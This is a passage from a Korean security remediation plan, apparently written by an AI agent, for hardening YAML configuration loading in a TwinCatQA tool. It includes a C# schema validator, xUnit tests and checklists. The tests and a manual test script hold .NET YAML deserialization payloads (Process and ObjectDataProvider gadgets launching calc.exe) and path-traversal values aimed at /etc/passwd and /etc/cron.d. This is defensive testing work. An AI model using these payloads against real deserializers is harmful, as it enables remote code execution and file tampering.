using System.Collections.Generic;
using System.Text.RegularExpressions;

namespace TwinCatQA.Application.Configuration
{
    /// <summary>
    /// YAML 스키마 검증기
    /// 악의적인 YAML 구조를 사전에 차단합니다.
    /// </summary>
    public static class YamlSchemaValidator
    {
        /// <summary>
        /// YAML 내용이 허용된 스키마를 따르는지 검증
        /// </summary>
        public static bool ValidateSchema(string yamlContent, out string errorMessage)
        {
            errorMessage = string.Empty;

            // 1. 빈 내용 체크
            if (string.IsNullOrWhiteSpace(yamlContent))
            {
                errorMessage = "YAML 내용이 비어있습니다.";
                return false;
            }

            // 2. 허용된 최상위 키만 검증
            var allowedTopLevelKeys = new HashSet<string>
            {
                "global",
                "rules",
                "reports",
                "git"
            };

            var lines = yamlContent.Split('\n');
            foreach (var line in lines)
            {
                var trimmed = line.Trim();

                // 주석이나 빈 줄 건너뛰기
                if (string.IsNullOrWhiteSpace(trimmed) || trimmed.StartsWith("#"))
                    continue;

                // 최상위 키 체크 (들여쓰기 없는 키)
                if (!line.StartsWith(" ") && !line.StartsWith("\t") && trimmed.Contains(':'))
                {
                    string key = trimmed.Split(':')[0].Trim();

                    if (!allowedTopLevelKeys.Contains(key.ToLowerInvariant()))
                    {
                        errorMessage = $"허용되지 않은 최상위 키: {key}";
                        return false;
                    }
                }
            }

            // 3. 중첩 깊이 제한 (DoS 방지)
            int maxDepth = 5;
            if (!ValidateNestingDepth(yamlContent, maxDepth, out errorMessage))
            {
                return false;
            }

            // 4. 앵커/별칭 개수 제한
            int maxAnchors = 10;
            int anchorCount = Regex.Matches(yamlContent, @"&[a-zA-Z0-9_]+").Count;
            if (anchorCount > maxAnchors)
            {
                errorMessage = $"앵커가 너무 많습니다: {anchorCount} (최대: {maxAnchors})";
                return false;
            }

            return true;
        }

        /// <summary>
        /// YAML 중첩 깊이 검증
        /// </summary>
        private static bool ValidateNestingDepth(
            string yamlContent,
            int maxDepth,
            out string errorMessage)
        {
            errorMessage = string.Empty;
            int currentDepth = 0;
            int maxObservedDepth = 0;

            var lines = yamlContent.Split('\n');
            foreach (var line in lines)
            {
                if (string.IsNullOrWhiteSpace(line) || line.TrimStart().StartsWith("#"))
                    continue;

                // 들여쓰기 레벨 계산 (2칸 기준)
                int indentation = line.Length - line.TrimStart().Length;
                currentDepth = indentation / 2;

                if (currentDepth > maxObservedDepth)
                {
                    maxObservedDepth = currentDepth;
                }

                if (maxObservedDepth > maxDepth)
                {
                    errorMessage = $"YAML 중첩이 너무 깊습니다: {maxObservedDepth} (최대: {maxDepth})";
                    return false;
                }
            }

            return true;
        }
    }
}
```

---

### 단위 테스트 전략

**파일**: `tests/TwinCatQA.Application.Tests/Configuration/ConfigurationServiceSecurityTests.cs`

```csharp
using System;
using System.IO;
using Xunit;
using TwinCatQA.Application.Configuration;

namespace TwinCatQA.Application.Tests.Configuration
{
    public class ConfigurationServiceSecurityTests : IDisposable
    {
        private readonly ConfigurationService _service;
        private readonly string _testProjectPath;

        public ConfigurationServiceSecurityTests()
        {
            _service = new ConfigurationService();
            _testProjectPath = Path.Combine(Path.GetTempPath(), $"ConfigTest_{Guid.NewGuid()}");
            Directory.CreateDirectory(_testProjectPath);
        }

        [Fact]
        public void LoadSettings_정상YAML_성공()
        {
            // Arrange
            string validYaml = @"
global:
  defaultMode: Full
  enableParallelProcessing: true
  maxDegreeOfParallelism: 4
  timeoutSeconds: 300
  logLevel: Info

reports:
  generateHtml: true
  outputPath: .twincat-qa/reports
";
            CreateSettingsFile(validYaml);

            // Act
            var settings = _service.LoadSettings(_testProjectPath);

            // Assert
            Assert.NotNull(settings);
            Assert.Equal(4, settings.Global.MaxDegreeOfParallelism);
        }

        [Fact]
        public void LoadSettings_타입태그공격_예외발생()
        {
            // Arrange
            string maliciousYaml = @"
global: !!System.Diagnostics.Process
  StartInfo:
    FileName: cmd.exe
    Arguments: /c calc.exe
";
            CreateSettingsFile(maliciousYaml);

            // Act & Assert
            var ex = Assert.Throws<ConfigurationException>(() =>
                _service.LoadSettings(_testProjectPath));

            Assert.Contains("허용되지 않은 패턴", ex.Message);
        }

        [Fact]
        public void LoadSettings_ObjectDataProvider공격_예외발생()
        {
            // Arrange
            string maliciousYaml = @"
rules: !System.Windows.Data.ObjectDataProvider
  MethodName: Start
  ObjectInstance: !System.Diagnostics.Process
";
            CreateSettingsFile(maliciousYaml);

            // Act & Assert
            Assert.Throws<ConfigurationException>(() =>
                _service.LoadSettings(_testProjectPath));
        }

        [Fact]
        public void LoadSettings_경로순회공격_예외발생()
        {
            // Arrange
            string maliciousYaml = @"
reports:
  outputPath: ../../../etc/passwd
";
            CreateSettingsFile(maliciousYaml);

            // Act & Assert
            var ex = Assert.Throws<ConfigurationException>(() =>
                _service.LoadSettings(_testProjectPath));

            Assert.Contains("..", ex.Message);
        }

        [Fact]
        public void LoadSettings_절대경로공격_예외발생()
        {
            // Arrange
            string maliciousYaml = @"
reports:
  outputPath: /etc/cron.d/malicious
";
            CreateSettingsFile(maliciousYaml);

            // Act & Assert
            var ex = Assert.Throws<ConfigurationException>(() =>
                _service.LoadSettings(_testProjectPath));

            Assert.Contains("상대 경로", ex.Message);
        }

        [Fact]
        public void LoadSettings_거대한파일_예외발생()
        {
            // Arrange: 2MB YAML 생성
            var settingsPath = Path.Combine(
                _testProjectPath, ".twincat-qa", "settings.yml");
            Directory.CreateDirectory(Path.GetDirectoryName(settingsPath)!);

            using (var writer = File.CreateText(settingsPath))
            {
                writer.WriteLine("global:");

                // 2MB 이상의 데이터
                for (int i = 0; i < 100_000; i++)
                {
                    writer.WriteLine($"  key{i}: value{i}");
                }
            }

            // Act & Assert
            var ex = Assert.Throws<ConfigurationException>(() =>
                _service.LoadSettings(_testProjectPath));

            Assert.Contains("크기가 너무 큽니다", ex.Message);
        }

        [Fact]
        public void LoadSettings_범위초과값_예외발생()
        {
            // Arrange
            string maliciousYaml = @"
global:
  maxDegreeOfParallelism: 999  # 허용 범위: 1-64
  timeoutSeconds: 99999  # 허용 범위: 1-3600
";
            CreateSettingsFile(maliciousYaml);

            // Act & Assert
            Assert.Throws<ConfigurationException>(() =>
                _service.LoadSettings(_testProjectPath));
        }

        private void CreateSettingsFile(string yamlContent)
        {
            var settingsDir = Path.Combine(_testProjectPath, ".twincat-qa");
            Directory.CreateDirectory(settingsDir);

            var settingsFile = Path.Combine(settingsDir, "settings.yml");
            File.WriteAllText(settingsFile, yamlContent);
        }

        public void Dispose()
        {
            if (Directory.Exists(_testProjectPath))
            {
                Directory.Delete(_testProjectPath, true);
            }
        }
    }
}
```

---

### 검증 체크리스트

#### 코드 리뷰 체크리스트

- [ ] **타입 태그 비활성화**: `WithoutTypeTagging()` 사용
- [ ] **화이트리스트 검증**: 허용된 타입만 역직렬화
- [ ] **파일 크기 제한**: 1MB 이하로 제한
- [ ] **중첩 깊이 제한**: 10레벨 이하
- [ ] **위험한 패턴 검증**: `!!`, `!System.`, `Process` 등 차단
- [ ] **경로 검증**: 상대 경로만 허용, `..` 차단
- [ ] **범위 검증**: 수치 설정의 최소/최대값 검증

#### 테스트 커버리지 체크리스트

- [ ] **단위 테스트**: ConfigurationService 100% 커버
- [ ] **역직렬화 공격 테스트**: 타입 태그, ObjectDataProvider 등
- [ ] **경로 공격 테스트**: 절대 경로, 경로 순회
- [ ] **DoS 테스트**: 거대한 파일, 깊은 중첩
- [ ] **범위 초과 테스트**: 유효하지 않은 수치 설정

#### 수동 보안 테스트

```bash
# 1. 타입 태그 공격 테스트
cat > settings.yml << 'EOF'
global: !!System.Diagnostics.Process
  StartInfo:
    FileName: calc.exe
EOF

dotnet test --filter "타입태그공격_예외발생"

# 2. ObjectDataProvider 공격 테스트 (WPF)
rules: !System.Windows.Data.ObjectDataProvider
# → ConfigurationException 발생해야 함

# 3. YAML Bomb 테스트 (깊은 중첩)
# 50레벨 중첩된 YAML 생성
# → 중첩 깊이 제한으로 차단되어야 함
```

---

### 예상 소요 시간

| 작업 단계 | 예상 시간 | 담당자 역할 |
|----------|----------|-----------|
| ConfigurationService 수정 | 3시간 | 백엔드 개발자 |
| YamlSchemaValidator 구현 | 2시간 | 백엔드 개발자 |
| SafeTypeConverter 구현 | 1시간 | 백엔드 개발자 |
| 단위 테스트 작성 | 3시간 | QA 엔지니어 |
| 코드 리뷰 | 1시간 | 시니어 개발자 |
| 수동 보안 테스트 | 1시간 | 보안 엔지니어 |
| 문서화 | 1시간 | 기술 작가 |
| **총 소요 시간** | **12시간** | **1.5일** |

---

## 전체 프로젝트 타임라인

### 순차 작업 일정 (권장)



### 전체 소요 시간 요약

| 취약점 | 심각도 | 개발 시간 | 테스트 시간 | 리뷰/검증 | 총 시간 |
|-------|--------|----------|------------|----------|---------|
| VULN-001 (경로 순회) | Critical | 5시간 | 4시간 | 3시간 | 12시간 |
| VULN-002 (명령어 주입) | High | 4시간 | 4시간 | 3시간 | 11시간 |
| VULN-003 (XXE) | High | 3시간 | 4시간 | 3시간 | 10시간 |
| VULN-004 (역직렬화) | High | 6시간 | 3시간 | 3시간 | 12시간 |
| **통합 검증** | - | - | 4시간 | 4시간 | 8시간 |
| **총계** | - | **18시간** | **19시간** | **16시간** | **53시간** |

### 리소스 배분

- **백엔드 개발자**: 18시간 (2.5일)
- **QA 엔지니어**: 19시간 (2.5일)
- **보안 엔지니어**: 8시간 (1일)
- **시니어 개발자** (리뷰): 6시간 (0.75일)
- **기술 작가**: 2시간 (0.25일)

**전체 프로젝트 기간**: **5-7 영업일** (병렬 작업 시)

---

## 추가 권장사항

### 1. 지속적 보안 모니터링

```yaml
# .github/workflows/security-scan.yml
name: Security Scan
on: [push, pull_request]
jobs:
  security:
    runs-on: windows-latest
    steps:
      - uses: actions/checkout@v3
      - name: Run Security Code Scan
        run: dotnet build /p:RunAnalyzers=true
      - name: OWASP Dependency Check
        run: dependency-check --project TwinCatQA --scan .
```

### 2. 정적 분석 도구 도입

- **SonarQube**: 코드 품질 + 보안 취약점 분석
- **Snyk**: 의존성 취약점 스캔
- **WhiteSource Bolt**: 오픈소스 라이선스 + 보안

### 3. 보안 교육

- OWASP Top 10 교육 (전 개발팀)
- Secure Coding Guidelines 문서 작성
- 분기별 보안 워크샵 개최

---

## 참고 자료

### OWASP 참조

- **A01:2021 - Broken Access Control**: 경로 순회 (VULN-001)
- **A03:2021 - Injection**: 명령어 주입 (VULN-002), XXE (VULN-003)
- **A08:2021 - Software and Data Integrity Failures**: 역직렬화 (VULN-004)

### CWE 참조

- **CWE-22**: Path Traversal
- **CWE-78**: OS Command Injection
- **CWE-611**: XXE
- **CWE-502**: Deserialization of Untrusted Data

### 도구 및 라이브러리

- **YamlDotNet**: https://github.com/aaubry/YamlDotNet
- **LibGit2Sharp**: https://github.com/libgit2/libgit2sharp
- **ANTLR4**: https://www.antlr.org/
- **Graphviz**: https://graphviz.org/

---

**문서 작성자**: Claude (Security Engineer Agent)
**검토자**: [검토자 이름]
**승인자**: [승인자 이름]
**최종 업데이트**: 2025-11-26
